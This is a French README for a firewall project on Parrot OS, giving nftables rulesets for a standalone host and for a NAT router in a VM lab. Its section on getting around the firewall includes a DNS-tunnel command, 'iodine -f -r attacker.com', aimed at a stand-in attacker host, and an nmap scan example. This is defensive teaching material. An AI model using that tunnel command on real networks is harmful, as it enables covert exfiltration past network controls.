 ## Objectif du projet

Ce projet présente la configuration de pare-feux avancés sous **Parrot Security OS**, une distribution orientée **pentest** et **protection de la vie privée/anonymat**.

Les démonstrations portent sur les niveaux suivants :

- **Niveau 6 — nftables (avancé, machine seule)**
- **Niveau 7 — nftables (NAT/Lab, routeur pour un lab de VM)**

## Pourquoi Parrot OS ?

- Distribution orientée **pentest** et **vie privée/anonymat**.
- Le pare-feu **UFW** est installé par défaut mais désactivé → à activer/configurer par l’utilisateur.
- Intègre des outils de confidentialité (Tor, Anonsurf, OnionShare).
- Plus légère que Kali, adaptée aux **machines modestes** et à la virtualisation (VirtualBox, VMware).




---

# Niveau 6 (standalone, machine protégée)

table inet filter {
chain input {
type filter hook input priority 0;
policy drop;

# Autoriser loopback
iif "lo" accept

# Autoriser connexions établies
ct state established,related accept

# Autoriser ping (IPv4 & IPv6)
ip protocol icmp accept
ip6 nexthdr icmpv6 accept

# Autoriser SSH + HTTP/HTTPS
tcp dport {22,80,443} accept

# Autoriser DNS
tcp dport 53 accept
udp dport 53 accept
}
}


# Niveau 7 (NAT / Lab, routeur VM)
table inet filter {
chain input {
type filter hook input priority 0;
policy drop;

iif "lo" accept
ct state established,related accept
ip protocol icmp accept
ip6 nexthdr icmpv6 accept
tcp dport {22,80,443} accept
tcp dport 53 accept
udp dport 53 accept
}

chain forward {
type filter hook forward priority 0;
policy drop;

# Autoriser le LAN interne vers Internet
iif "eth1" oif "eth0" accept
ct state established,related accept
}
}

table ip nat {
chain postrouting {
type nat hook postrouting priority 100;
oif "eth0" masquerade
}
}

---

# 📌 Explications :

Niveau 6 → protège ta machine personnelle.

Niveau 7 → transforme ta machine en pare-feu + routeur pour un réseau virtuel.

---

#  Démonstrations
Application des règles :

sudo nft -f /etc/nftables.conf

Vérification des règles actives :

sudo nft list ruleset

---

#  Limites et bonnes pratiques

Un firewall réduit la surface d’attaque mais ne protège pas de tout.

Un hacker expérimenté peut :

passer par un port ouvert (SSH, HTTPS),

exploiter une faille logicielle,

utiliser du tunneling (DNS, HTTP(S)),

contourner via IPv6 si mal configuré.

👉 Solution : combiner avec un IDS/IPS (Snort, Suricata), du monitoring (logs, SIEM), et de bonnes pratiques (MFA, patchs, segmentation réseau).

---

# Conclusion
Parrot OS est une alternative solide à Kali, plus légère et orientée vie privée.

Les niveaux 6 et 7 démontrent deux cas concrets :

🔒 Protection avancée d’une machine individuelle.

🌐 Mise en place d’un routeur/firewall complet pour un lab réseau.

Ce projet illustre comment un firewall évolue : de simple protection → à composant réseau avancé.

⚡ Technologies utilisées
Parrot OS

nftables

VirtualBox



📌 Auteur : Virginie Lechene

# ⚠️ Comment un hacker pourrait contourner


Même avec un firewall avancé (niveaux 6 et 7), il existe des techniques de contournement :

Exploiter les ports ouverts (ex : nmap -p 443 <cible> → scanner en HTTPS).

Tunneling DNS (ex : iodine → transformer DNS en canal de communication).

Exploiter des failles applicatives derrière un port autorisé.



👉 C’est pourquoi on combine firewall + IDS/IPS + monitoring.

🔹 Exemple — Tunnel DNS (contournement)


Comme le port 53 (DNS) est ouvert, un attaquant peut établir un tunnel DNS :

iodine -f -r attacker.com

👉 Cela permet de faire passer du trafic complet dans des requêtes DNS → contournant le firewall.

🚀 Différence entre Niveau 6 et Niveau 7


🔹 Niveau 6 : Firewall personnel
Ne protège que ta machine locale.

Politique stricte : tout bloqué sauf quelques services.

Idéal pour un poste de travail ou serveur isolé.



👉 Exemple : ton PC sous Parrot OS n’accepte que le trafic web et SSH.

🔹 Niveau 7 : Firewall réseau
Ta machine devient un routeur + firewall.

Protège un lab ou réseau interne entier.

Ajoute le forwarding + NAT.

Fonctionne comme un firewall d’entreprise (pfSense, Fortinet, iptables/nftables).



👉 Exemple : une VM interne passe par ton firewall pour sortir → le firewall contrôle/log tout le trafic.




